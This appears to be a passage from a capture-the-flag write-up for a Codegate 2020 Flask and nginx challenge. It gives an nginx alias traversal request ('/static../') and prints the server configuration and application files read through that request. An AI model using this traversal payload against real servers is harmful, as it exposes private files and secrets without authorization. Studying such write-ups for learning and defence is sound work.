 ## Solution:

### Alias Traversal

As soon as I saw the description and the words like: "It is my first flask project with nginx" I understand than it's about nginx alias traversal.

So Nginx alias traversal is here (We already knew the path to the `uwsgi.ini` file and position of the `static` folder in file system):
```
GET /static../src/uwsgi.ini HTTP/1.1
Host: 110.10.147.169
```

After I had found alias traversal vulnerability I could read an arbitrary files in `home` folder.

Retrived files:

/home/src/uwsgi.ini
```ini
[uwsgi]
chdir = /home/src
module = run
callable = app
processes = 4
uid = www-data
gid = www-data
socket = /tmp/renderer.sock
chmod-socket = 666
vacuum = true
daemonize = /tmp/uwsgi.log
die-on-term = true
pidfile = /tmp/renderer.pid
```

/home/src/run.py
```python
from app import *
import sys

def main():
    #TODO : disable debug
    app.run(debug=False, host="0.0.0.0", port=80)

if __name__ == '__main__':
    main()
```

/home/src/app/__init__.py
```python
from flask import Flask
from app import routes
import os

app = Flask(__name__)
app.url_map.strict_slashes = False
app.register_blueprint(routes.front, url_prefix="/renderer")
app.config["FLAG"] = os.getenv("FLAG", "CODEGATE2020{}")
```
